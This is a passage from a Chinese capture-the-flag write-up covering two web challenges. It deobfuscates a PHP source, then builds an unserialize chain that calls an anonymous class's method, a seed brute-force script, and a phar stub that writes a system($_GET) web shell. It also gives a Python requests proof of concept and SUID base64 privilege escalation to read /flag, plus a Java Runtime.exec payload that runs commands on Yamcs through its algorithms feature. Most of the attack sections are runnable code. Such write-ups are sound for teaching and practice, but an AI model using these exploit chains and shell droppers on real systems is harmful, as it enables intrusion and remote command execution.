pe3BocGluZm8oKTt9cHVibGljIGZ1bmN0aW9uIHJlYWRmbGFnKCl7ZnVuY3Rpb24gcmVhZGZsYWcoKXtpZiAoaXNzZXQoJEdMT0JBTFNbJ2ZpbGUnXSkpIHskZmlsZSA9ICRHTE9CQUxTWydmaWxlJ107JGZpbGUgPSBiYXNlbmFtZSgkZmlsZSk7aWYgKHByZWdfbWF0Y2goJy86XC9cLy8nLCAkZmlsZSkpZGllKCJlcnJvciIpOyRmaWxlX2NvbnRlbnQgPSBmaWxlX2dldF9jb250ZW50cygidXBsb2Fkcy8iIC4gJGZpbGUpO2lmIChwcmVnX21hdGNoKCcvPFw/fFw6XC9cL3xwaHxcP1w9L2knLCAkZmlsZV9jb250ZW50KSkge2RpZSgiSWxsZWdhbCBjb250ZW50IGRldGVjdGVkIGluIHRoZSBmaWxlLiIpO31pbmNsdWRlKCJ1cGxvYWRzLyIgLiAkZmlsZSk7fX19fTt9cHVibGljIGZ1bmN0aW9uIF9fZGVzdHJ1Y3QoKXskZnVuYyA9ICR0aGlzLT5mOyRHTE9CQUxTWydmaWxlbmFtZSddID0gJHRoaXMtPnJlYWRmbGFnO2lmICgkdGhpcy0+a2V5ID09ICdjbGFzcycpbmV3ICRmdW5jKCk7ZWxzZSBpZiAoJHRoaXMtPmtleSA9PSAnZnVuYycpIHskZnVuYygpO30gZWxzZSB7aGlnaGxpZ2h0X2ZpbGUoJ2luZGV4LnBocCcpO319fSRzZXIgPSBpc3NldCgkX0dFVFsnbGFuZCddKSA/ICRfR0VUWydsYW5kJ10gOiAnTzo0OiJ0ZXN0IjpOJztAdW5zZXJpYWxpemUoJHNlcik7'));
```

直接把eval去掉输出一下然后给ai整理

```php
<?php
function generateRandomString($length = 8) {
    $characters = 'abcdefghijklmnopqrstuvwxyz';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $r = rand(0, strlen($characters) - 1);
        $randomString .= $characters[$r];
    }
    return $randomString;
}

date_default_timezone_set('Asia/Shanghai');

class test {
    public $readflag;
    public $f;
    public $key;

    public function __construct() {
        $this->readflag = new class {
            public function __construct() {
                if (isset($_FILES['file']) && $_FILES['file']['error'] == 0) {
                    $time = date('Hi');
                    $filename = $GLOBALS['filename'];
                    $seed = $time . intval($filename);
                    mt_srand($seed);

                    $uploadDir = 'uploads/';
                    $files = glob($uploadDir . '*');
                    foreach ($files as $file) {
                        if (is_file($file)) {
                            unlink($file);
                        }
                    }

                    $randomStr = generateRandomString(8);
                    $newFilename = $time . '.' . $randomStr . '.' . 'jpg';
                    $GLOBALS['file'] = $newFilename;

                    $uploadedFile = $_FILES['file']['tmp_name'];
                    $uploadPath = $uploadDir . $newFilename;

                    if (system("cp " . $uploadedFile . " " . $uploadPath)) {
                        echo "success upload!";
                    } else {
                        echo "error";
                    }
                }
            }

            public function __wakeup() {
                phpinfo();
            }

            public function readflag() {
                function readflag() {
                    if (isset($GLOBALS['file'])) {
                        $file = $GLOBALS['file'];
                        $file = basename($file);

                        if (preg_match('/:\/\//', $file)) {
                            die("error");
                        }

                        $file_content = file_get_contents("uploads/" . $file);

                        if (preg_match('/<\?|\:\/\/|ph|\?\=/i', $file_content)) {
                            die("Illegal content detected in the file.");
                        }

                        include("uploads/" . $file);
                    }
                }
            }
        };
    }

    public function __destruct() {
        $func = $this->f;
        $GLOBALS['filename'] = $this->readflag;

        if ($this->key == 'class') {
            new $func();
        } else if ($this->key == 'func') {
            $func();
        } else {
            highlight_file('index.php');
        }
    }
}

$ser = isset($_GET['land']) ? $_GET['land'] : 'O:4:"test":N';
@unserialize($ser);
?>
```

分析一下源代码

generateRandomString函数能生成随机8字节字母并返回

destruct魔术方法就不说了，能根据key的内容进行任意类实例化和任意方法调用

主要看construct中的内容

```php
    public function __construct() {
        $this->readflag = new class {
```

将readflag赋值为一个匿名类

```php
            public function __construct() {
                if (isset($_FILES['file']) && $_FILES['file']['error'] == 0) {
                    $time = date('Hi');
                    $filename = $GLOBALS['filename'];
                    $seed = $time . intval($filename);
                    mt_srand($seed);

                    $uploadDir = 'uploads/';
                    $files = glob($uploadDir . '*');
                    foreach ($files as $file) {
                        if (is_file($file)) unlink($file);
                    }

                    $randomStr = generateRandomString(8);
                    $newFilename = $time . '.' . $randomStr . '.' . 'jpg';
                    $GLOBALS['file'] = $newFilename;

                    $uploadedFile = $_FILES['file']['tmp_name'];
                    $uploadPath = $uploadDir . $newFilename;

                    if (system("cp " . $uploadedFile . " " . $uploadPath)) {
                        echo "success upload!";
                    } else {
                        echo "error";
                    }
                }
            }
```

官方手册看一下file全局变量的内容



先是检测是否有文件上传，并且上传没有出错，设置time为当前时间并从全局变量中提取文件名进行拼接后作为随机数种子`$seed`

删除uploads目录下的所有文件

利用generateRandomString函数随机生成一个8位纯字母字符串并结合时间戳生成新的jpg文件名，最后将文件的内容复制到新的文件中

可以看到这里的system是直接拼接的，那么可能是一个可利用的点？接着往下看一下

```php
            public function readflag() {
                function readflag() {
                    if (isset($GLOBALS['file'])) {
                        $file = $GLOBALS['file'];
                        $file = basename($file);
                        if (preg_match('/:\/\//', $file))
                            die("error");

                        $file_content = file_get_contents("uploads/" . $file);
                        if (preg_match('/<\?|\:\/\/|ph|\?\=/i', $file_content)) {
                            die("Illegal content detected in the file.");
                        }

                        include("uploads/" . $file);
                    }
                }
            }
```

两层readflag函数，里面会获取上传的文件名并提取文件名，对文件名过滤了`://`，随后读取uploads下的同名文件的内容，并对内容进行了过滤`<?`、`://`、`ph`、`?=`，最后进行include文件包含

先正常走一下phpinfo看看

```php
<?php
class test {
    public $readflag;
    public $f;
    public $key;
}
$a = new test();
$a -> key = "func";
$a -> f = "phpinfo";
echo urlencode(serialize($a));
//O%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3BN%3Bs%3A1%3A%22f%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A3%3A%22key%22%3Bs%3A4%3A%22func%22%3B%7D
//O:4:"test":3:{s:8:"readflag";N;s:1:"f";s:7:"phpinfo";s:3:"key";s:4:"func";}
```



禁用了挺多函数的

然后我们现在的问题是如何调用到匿名类的readflag，因为序列化操作不能序列化匿名类，所以这也是我一直很疑惑的地方，测了几个小时都没测过去，也是赛后才复现的

get_class函数可以返回指定 `object` 的类名。

我们先来看一下匿名类的命名规则

```php
<?php
echo get_class(new class {});
```

输出结果

```php
class@anonymous/var/www/html/1.php:2$10
```

匿名类的命名规则：
```php
%00+函数+路径 : ⾏号$序号
```

但是题目中是在eval函数里实现的

```php
<?php
eval('$b = new class{};');
echo get_class($b);
```

输出结果：

```php
class@anonymous/var/www/html/1.php(2) : eval()'d code:1$c5
```

这里的行号就是`eval()'d code+数字`

因为eval函数是在第二行，所以括号里的行号是2，但是在eval中他是在一行，所以`$`前面的行号是1

然后我们推测一下题目中的匿名类的内容

```php
%00readflag/var/www/html/index.php(1) : eval()\'d code:1$序号
```

另外还有一个函数调用的姿势

```php
<?php
class a {
    function test() {
        echo "yes";
    }
}
$a = new a();
$func = array('a','test');
$func();
```

在 PHP 中，形如 `['类名', '方法名']` 或 `[$object, '方法名']` 的数组都被视为 **callable**（可调用值）。当把这样的数组放进变量并使用函数调用语法 `($var)()` 时，PHP 会把该变量当作回调来执行，等价于 `call_user_func($var)`。

因此我们能得出调用readflag的方法

```PHP
<?php
class test {
    public $readflag;
    public $f;
    public $key;
}

//实例化一个test类
$a = new test();
$a -> f = 'test';
$a -> key = 'class';

//调用readflag函数
$b = new test();
$b -> f = array("class@anonymous\0/var/www/html/index.php(1) : eval()'d
code:1$1", 'readflag');
$b -> key = 'func';

echo urlencode(serialize($a));
echo "\n\n";
echo urlencode(serialize($b));
```

接下来就是上传文件的问题了

参考苟哥的文章：https://fushuling.com/index.php/2025/07/30/%E5%BD%93include%E9%82%82%E9%80%85phar-deadsecctf2025-baby-web/

利用phar文件去进行文件包含，但是需要绕过验证

```php
<?php
$phar = new Phar('exploit.phar');
$phar->startBuffering();
$stub = <<<'STUB'
<?php
system('echo "<?php system(\$_GET[1]); ?>" > 1.php');
__HALT_COMPILER();
?>
STUB;

$phar->setStub($stub);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();
?>
```

用gzip去压缩绕过waf检测，这个刚好前几天做的0xgame2025中的题中有绕过姿势

然后我们需要知道怎么把这个phar文件搞进去

```php
            public function __construct() {
                if (isset($_FILES['file']) && $_FILES['file']['error'] == 0) {
                    $time = date('Hi');
                    $filename = $GLOBALS['filename'];
                    $seed = $time . intval($filename);
                    mt_srand($seed);

                    $uploadDir = 'uploads/';
                    $files = glob($uploadDir . '*');
                    foreach ($files as $file) {
                        if (is_file($file)) unlink($file);
                    }

                    $randomStr = generateRandomString(8);
                    $newFilename = $time . '.' . $randomStr . '.' . 'jpg';
                    $GLOBALS['file'] = $newFilename;

                    $uploadedFile = $_FILES['file']['tmp_name'];
                    $uploadPath = $uploadDir . $newFilename;

                    if (system("cp " . $uploadedFile . " " . $uploadPath)) {
                        echo "success upload!";
                    } else {
                        echo "error";
                    }
                }
            }
```

这里filename可控，并且这个种子是可以爆破的，那么就可以试着让`$randomStr`生成的文件名是以phar开头，写个脚本

```php
<?php
function generateRandomString($length = 8) {
    $characters = 'abcdefghijklmnopqrstuvwxyz';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $r = rand(0, strlen($characters) - 1);
        $randomString .= $characters[$r];
    }
    return $randomString;
}

date_default_timezone_set('Asia/Shanghai');
$time = date('Hi');
echo "当前时间time为：".$time."\n";

$found = false;
$max = 10000000;
for ($i = 0; $i < $max; $i++) {
    $seed = $time . $i;
    mt_srand((int)$seed);
    //由于是自定义的generateRandomString且内部用的rand，所以需要用srand
    srand((int)$seed);

    $randomStr = generateRandomString(8);
    if (substr($randomStr,0,4) === 'phar'){
        $found = true;
        echo "找到合适的字符串！\n";
        echo "生成的字符串为：" . $randomStr . "\n";
        echo "种子seed为：" . $seed . "\n";
        break;
    }
}

```

输出结果

```php
当前时间time为：1530
找到合适的字符串！
生成的字符串为：pharzxif
种子seed为：1530786234
```

所以我们设置readflag为786234的话就可以将文件名设置为phar后缀的

最后别忘了需要绕过wakeup

整合一下可以得到poc

```python
import requests

target = "http://localhost:8000"
poc1 = 'O:4:"test":3:{s:8:"readflag";s:5:"786234";s:1:"f";s:4:"test";s:3:"key";s:5:"class";}'

poc2 = 'O:4:"test":3:{s:8:"readflag";s:5:"786234";s:1:"f";s:55:"\0readflag/var/www/html/index.php(1) : eval()\'d code:1$1";s:3:"key";s:4:"func";}'

exp = 'a:2:{i:0;' + poc1 + 'i:1;' + poc2 + '}'
data = {
    'land' : exp
}
file = {
    'file' : ('1.png',open('1.gz','rb').read())
}
r = requests.post(target, params=data,files=file)
print(r.text)
```

写shell上去后还需要提权

看一下SUID位文件

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

找到一个base64，直接用base64读文件就行

```bash
base64 "/flag" | base64 --decode
```

至于为什么只需要文件名中包含phar就能反序列化可以看这个wp

https://blog.xmcve.com/2025/10/20/%E5%BC%BA%E7%BD%91%E6%9D%AFS9-Polaris%E6%88%98%E9%98%9FWriteup/#title-12



## yamcs

附件给了一个dockerfile

```docker
FROM maven:3.9.9-eclipse-temurin-17

WORKDIR /build

RUN apt-get update && apt-get install -y git && \
    git clone https://github.com/yamcs/quickstart.git

WORKDIR /build/quickstart

RUN chmod +x mvnw
RUN ./mvnw compile

RUN apt-get update && \
    apt-get install -y python3 python3-pip && \
    apt-get clean

RUN ./mvnw dependency:go-offline

RUN echo FLAG>/flag
EXPOSE 8090

CMD bash -c '\
  nohup python3 simulator.py >/dev/null 2>&1 & \
  ./mvnw yamcs:run'


```

打开题目扫目录找到一个api接口

```html
{
  "yamcsVersion": "5.12.0",
  "serverId": "engine-1",
  "defaultYamcsInstance": "myproject",
  "plugins": [{
    "name": "yamcs-web",
    "description": "Web UI for managing and monitoring Yamcs",
    "version": "5.12.0",
    "vendor": "Space Applications Services"
  }],
  "revision": "b6a0f04a4eb3a7af870d4d25422c33ffa870d3fb"
}
```

访问/auth接口

```html
{
  "requireAuthentication": false
}
```

这是一个认证登录的配置

在环境中百无聊赖的逛了半天，在algorithms下找到一个可以运行代码的口子，并且还没什么过滤

在 Yamcs 中，**`algorithms`**是一种用于进行**实时处理、计算或派生新参数**的接口

直接传就行

poc

```java
try{
  String cmd = "whoami";
  Process process = Runtime.getRuntime().exec(cmd);
  java.io.InputStream inputStream  = process.getInputStream();
  java.util.Scanner s = new java.util.Scanner(inputStream).useDelimiter("\\a");
  String output = s.hasNext() ? s.next() : "";
  out0.setStringValue(output);
  s.close();
  process.destroy();
} catch (Exception e) {
    // 处理异常
    e.printStackTrace();
    out0.setStringValue("获取内容失败");
}
```


